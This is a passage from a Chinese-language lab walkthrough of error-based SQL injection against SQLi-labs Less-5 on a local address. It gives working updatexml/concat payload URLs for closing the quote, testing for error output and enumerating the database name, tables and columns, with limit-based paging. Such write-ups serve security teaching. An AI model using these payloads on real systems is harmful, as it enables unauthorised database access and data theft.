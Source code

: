 ?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and 1=2--+

![img](https://s2.loli.net/2023/03/12/Yp5FJZcOg23nkf4.jpg) 

#### 3.2.5.2.**判断注入类型（数字型或字符型）**

其实通过上面的判断就可以得知第五关是字符型。

#### 3.2.5.3.**判断是否存在报错注入**

通过构建基本的语句对页面进行测试是否存在报错注入。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,'~',3)--+

![img](https://s2.loli.net/2023/03/12/TtiayhcGH7L6gKZ.jpg) 

#### 3.2.5.4.**确定数据库名**

通过对其进行拼接使其能够进行报错，并且在报错的同时显示出数据库名，concat(0x7e,database())。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,database()),3)--+

![img](https://s2.loli.net/2023/03/12/gQFDKTpLViNmfrz.jpg) 

#### 3.2.5.5.**确定数据库的表名**

把concat中database()换成正常的查询sql语句就可以了，和联合查询语句如出一辙。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3)--+

![img](https://s2.loli.net/2023/03/12/35A7O8TlogXDJGn.jpg) 

#### 3.2.5.6.**确定数据库的列名**

***\*未分页：\****

其实在下图就可以看到，好像未显示完整，这是由于updatexml报错只能显示32位，所以在报错多的情况下需要进行分页。

使用limit参数进行控制，同时上面的group_concat(column_name)也需要改为column_name，因为group_concat()是获取全部。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3)--+

![img](https://s2.loli.net/2023/03/12/YETS4RC5k7jKceA.jpg) 

我这里获取到的数据有点问题，暂时没有找到获取哪里的数据了，但是前面的测试都是能够正常获取的，不知道是不是最近又加了一些靶场存在一些冲突的数据。

***\*分页：\****

通过控制limit 后面的数量实现分页输出。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),3)--+
